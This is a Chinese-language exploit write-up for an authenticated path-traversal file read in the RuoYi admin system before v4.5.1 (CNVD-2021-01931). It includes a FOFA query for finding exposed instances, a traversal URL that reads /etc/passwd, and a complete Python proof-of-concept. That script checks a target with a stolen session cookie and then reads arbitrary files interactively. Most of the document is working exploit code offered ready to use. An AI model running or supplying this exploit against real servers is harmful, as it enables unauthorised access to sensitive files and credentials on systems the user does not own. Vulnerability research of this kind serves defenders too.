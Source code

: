 # 若依(RuoYi)管理系统 后台任意文件读取

## 漏洞描述

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件

## 漏洞影响

> [!NOTE]
>
> RuoYi < v4.5.1

## FOFA

> [!NOTE]
>
> app="若依-管理系统"

## 漏洞复现

登录后台后访问 Url

https://xxx.xxx.xxx.xxx/common/download/resource?resource=/profile/../../../../etc/passwd

![](若依管理系统-后台任意文件读取-CNVD-2021-01931.assets/1627363125829052.jpg)

访问后会下载文件 **/etc/passwd**

![](若依管理系统-后台任意文件读取-CNVD-2021-01931.assets/1627363126126689.jpg)

可以使用Burp抓包改变 **/etc/passwd** 为其他文件路径获取敏感信息

![](若依管理系统-后台任意文件读取-CNVD-2021-01931.assets/16273631264811919.jpg)

![](若依管理系统-后台任意文件读取-CNVD-2021-01931.assets/1627363126804107.jpg)

在新版本的修复中添加了过滤

![](若依管理系统-后台任意文件读取-CNVD-2021-01931.assets/1627363127065077.jpg)

## 漏洞利用POC

> [!NOTE]
>
> POC使用需要后台的Cookie,读取的文件路径应为根路径

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: RuoYi < v4.5.1                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> JSESSIONID=xxxxxx                                   \033[0m')
    print('+  \033[36mFile        >>> /etc/passwd                                         \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":Cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}//common/download/resource?resource=/profile/../../../../etc/passwd \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Filename = input("\033[35mFile >>> \033[0m")
                if Filename == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, Cookie, Filename)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie, Filename):
    vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../{}".format(Filename)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":Cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = str(input("\033[35mCookie >>> \033[0m"))
    POC_1(target_url, Cookie)
```

![](若依管理系统-后台任意文件读取-CNVD-2021-01931.assets/16273631274789708.jpg)



